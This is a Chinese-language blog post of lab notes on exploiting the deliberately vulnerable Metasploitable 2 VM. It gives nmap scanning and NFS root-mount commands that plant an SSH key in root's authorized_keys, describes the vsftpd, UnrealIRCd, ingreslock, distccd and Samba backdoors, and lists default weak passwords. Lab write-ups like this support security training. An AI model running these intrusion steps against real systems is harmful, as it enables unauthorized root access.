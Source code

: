 ```yaml
---
layout: post
title: Metasploitable2-Exploitability-Guide
date: 2017-10-16
tags: 安全靶场通关  
---
```






![rapid7][1]

<br>

###  内容：metasploitable 2 利用笔记    

暂时不包括对web应用和服务的利用  

环境搭建: VMware 虚拟机[下载地址](https://information.rapid7.com/metasploitable-download.html)  注册信息随便写，或者[直接下载](https://metasploit.help.rapid7.com/docs/metasploitable-2).    

metasploitable 2 用户名密码`msfadmin`/`msfadmin`.登陆后查看地址`ifconfig`.    

  ![ifconfig][2]   


<br>

<p style="color: #FF2D2D">
<strong>打开kali用nmap扫描该地址开启的端口和服务以及服务版本:`nmap -p1-65535 -sV 192.168.227.128`</strong></p>      

  ![nmap][3]  

得到很多开启的服务及端口信息,这正是我们需要的.    

---    

### PORT: 2049 NFS(Network File System) 网络文件系统    

  使用`rpcinfo`判断`NFS`服务是否开启，再用`showmount -e` 判断`linux`系统根目录是否被共享和可以挂载.  

    # rpcinfo -p 192.168.227.128
    # showmount -e 192.168.227.128


![NFS][4]  

  通过挂载远程服务器的根目录，再写入文件。这里选择写入ssh公钥用ssh私钥直接进行登录。  

创建公私钥   

    # ssh-keygen -t rsa    

![ssh-keygen][5]  

挂载共享目录到本地，再将公钥重命名写到指定目录，用私钥登录   

    # mount -t nfs 192.168.227.128:/ /tmp/
    # cat id_rsa.pub >> /tmp/root/.ssh/authorized_keys
    # umount /tmp
    # ssh 192.168.227.128

![ssh][6]  

------

### PORT: 21 vsftpd-2.3.4     
  该版本包含一个后门，如果一个用户名被传入最后包含`:)`，该版本会在6200端口监听一个shell，可以用telnet或者msf测试这个漏洞    

  ![telnet][7]  

  ![msfconsole][8]  

-----

### PORT: 6667 UnrealRCD IRC 守护进程    

  该版本(Unreal3.2.8.1)包含一个后门,该后门允许用户执行任意命令，拥有该服务的权限  

  ![Unreal][9]  

-------  

### PORT: 1524 "ingreslock" backdoor  

  很久以前这是一个常见的后门  

  ![1524][10]  

-----  

### PORT: 3632 distccd backdoor   

  ![3632][11]  

------  

### PORT: 445.139 Samba  

  Samba 当配置为可写的文件共享并且`smb.conf`中`wide links`选项为on的时候，可以导致不被分享的目录也可被进入  

  ![Samba][12]  

-----  

### Weak Paawords  

    msfadmin/msfadmin
    user/user
    postgres/postgres
    sys/batman
    klog/123456789
    service/service  

-----  

# web 应用程序有时间也会写出来  


------

> 大智若愚，木秀于林，风必催之，国之利器不可以示人。 --来自《知乎》

----------



<br>

[1]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/1.png  
[2]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/2.png    
[3]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/3.png  
[4]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/4.png  
[5]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/5.png  
[6]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/6.png  
[7]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/7.png  
[8]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/8.png  
[9]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/9.png  
[10]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/10.png  
[11]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/11.png  
[12]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/12.png  
